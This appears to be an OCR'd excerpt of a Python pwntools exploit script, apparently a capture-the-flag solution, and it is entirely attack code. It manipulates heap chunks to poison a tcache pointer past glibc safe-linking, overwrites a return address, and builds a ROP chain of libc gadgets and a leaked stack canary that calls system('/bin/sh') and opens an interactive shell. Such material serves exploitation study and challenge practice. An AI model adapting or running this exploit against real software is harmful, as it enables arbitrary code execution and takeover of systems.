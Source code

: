 ```python
    login('a'*31, p8(0)*8)
    dele(11)

    logout()
    login('a'*31, p8(0x40)*8)
    dele(10)

    ret_addr = stack_addr - 0x150
    protect_ptr = (ret_addr-0x18) ^ ((heap_base+0x3c0)>>12)
    payload = b""
    payload += p64(0)*3 + p64(0x101)
    payload += p64(protect_ptr)
    payload += p64(0)*4
    payload += p64(0x31)
    payload += p32(0xa)
    payload = enc(payload, b'b'*8)
    add(b'a'*6, b'b'*8, payload) #16

    payload = b""
    payload += p64(0)*3
    payload += p64(0x31)
    payload += p32(0xa) + p32(0x36)
    payload += p64(heap_base + 0x390)
    payload += p64(heap_base + 0x390)
    payload += p64(heap_base + 0x397)
    payload += p64(heap_base + 0x3a0)
    payload += p64(0x21)
    payload += b"a"*6 + b'\x00' + b'\x40'*8 + b'\x00'*9
    payload += p64(0x31)
    payload += p32(0x5) + p32(0x6)
    payload += p64(heap_base + 0x470)
    payload += p64(heap_base + 0x470)
    payload += p64(heap_base + 0x477)
    payload += p64(heap_base + 0x480)
    payload += p64(0x21)
    payload += b"a"*6 + b'\x00' + b'\x40'*8 + b'\x00'*9
    payload += p64(0x31)
    payload += p32(0xf0) + p32(0x11)
    payload += p64(0)*2
    payload = enc(payload, b'b'*8)
    add(b'a'*6, b'b'*8, payload) #17

    dele(5)
    logout()
    login(b'a'*31, b'\x00'*8)

    prdi = libc_base + 0x0000000000102e2a
    ret = libc_base + 0x0000000000024578
    system = libc_base + 0x0000000000053b00
    binsh = libc_base + 0x00000000001b0ebc
    rop = b'\x00'*6
    rop += p64(ret)
    rop += p64(prdi)
    rop += p64(binsh)
    rop += p64(system)
    rop = rop.ljust(0xe4, b'\x00')
    rop = enc(rop, p64(canary)[1:]+p8(1))
    add(b'a'*8, p64(canary)[1:]+p8(1), rop)

    p.interactive()
```

